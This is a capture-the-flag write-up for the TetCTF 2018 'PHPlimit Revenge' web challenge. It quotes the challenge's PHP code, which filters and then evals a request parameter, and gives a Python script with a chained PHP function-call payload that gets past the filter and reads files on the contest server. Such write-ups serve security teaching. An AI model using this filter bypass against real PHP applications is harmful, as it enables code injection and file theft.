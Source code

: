 ```yaml
---
description: One more CTF without IDA...
---
```


# TetCTF - 2018

## Web - PHPlimit Revenge

{% code-tabs %}
{% code-tabs-item title="filter.php" %}
```php
<?php

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) 
{    
    if(preg_match('/_|m|info|get/i',$_GET['code']))
    {
        die('<strong>va anh dech can gi nhieu ngoai em :(</strong><audio controls autoplay loop hidden><source src="assets/nhac.mp3" type="audio/mpeg"></audio>');
    }
    else
    {
        eval($_GET['code']);
    }
} 
else 
{
    show_source(__FILE__);
}

?>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

I am not familiar with PHP code, but with a mindset of RE-er,...then JUST FUCKING DO IT!

Btw, i joined after contest started for a while \(9 AM 4/1/2018\), so they already released the phplimit revenge 2, i just need to read which funcs are filtered by 2, and use it to create my payload

{% code-tabs %}
{% code-tabs-item title="payload1" %}
```python
import requests

url = "http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(rand()))))));"
r = requests.get(url)
while len(r.content) == 0:
	r = requests.get(url)
print r.content

#view-source:http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(ord(join(localeconv()))))))));
```
{% endcode-tabs-item %}
{% endcode-tabs %}
